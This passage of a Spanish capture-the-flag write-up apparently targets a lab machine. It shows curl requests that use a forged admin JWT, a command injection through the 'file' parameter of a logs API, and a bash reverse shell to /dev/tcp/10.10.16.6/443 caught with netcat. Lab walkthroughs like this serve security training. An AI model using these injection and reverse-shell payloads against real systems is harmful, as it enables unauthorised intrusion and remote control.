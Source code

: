 Ahora vamos a probar a acceder a uno de esos endpoints proporcionando el token.

```bash
❯ curl -s -X GET "http://10.10.11.120/api/priv" -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDA0NzY1Y2JhNDliMTA0NjU4ZTEwOWUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImJseUBibHkuY29tIiwiaWF0IjoxNjc4MDE0MTY2fQ.oGmU6qXk2wzj-NbSI-bAoLxszxOUlqpUYkfOnkcVIik' | jq
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```

Podemos ver que nos hemos autenticado como administradores. Ahora vamos a intentar aprovecharnos de la función de logs que habiamos visto antes.

```bash
❯ curl -s -X GET "http://10.10.11.120/api/logs?file=test" -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDA0NzY1Y2JhNDliMTA0NjU4ZTEwOWUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImJseUBibHkuY29tIiwiaWF0IjoxNjc4MDE0MTY2fQ.oGmU6qXk2wzj-NbSI-bAoLxszxOUlqpUYkfOnkcVIik' | jq

{
  "killed": false,
  "code": 128,
  "signal": null,
  "cmd": "git log --oneline test"
}
```

Esa sería la forma intencionda, pero si intentamos concatenar comandos vamos a ver lo que sucede.

```bash
❯ curl -s -X GET "http://10.10.11.120/api/logs?file=e;id" -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDA0NzY1Y2JhNDliMTA0NjU4ZTEwOWUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImJseUBibHkuY29tIiwiaWF0IjoxNjc4MDE0MTY2fQ.oGmU6qXk2wzj-NbSI-bAoLxszxOUlqpUYkfOnkcVIik' | jq

"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

Vemos que el comando ID se ha ejecutado correctamente, ahora nos intentaremos establecer una revshell.

```bash
❯ curl -s -G "http://10.10.11.120/api/logs" -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NDA0NzY1Y2JhNDliMTA0NjU4ZTEwOWUiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImJseUBibHkuY29tIiwiaWF0IjoxNjc4MDE0MTY2fQ.oGmU6qXk2wzj-NbSI-bAoLxszxOUlqpUYkfOnkcVIik' --data-urlencode "file=test ;bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'"
```

Si miramos nuestro listener podemos ver que hemos ganado shell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.11.120: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.120] 59460
bash: cannot set terminal process group (1125): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$
```
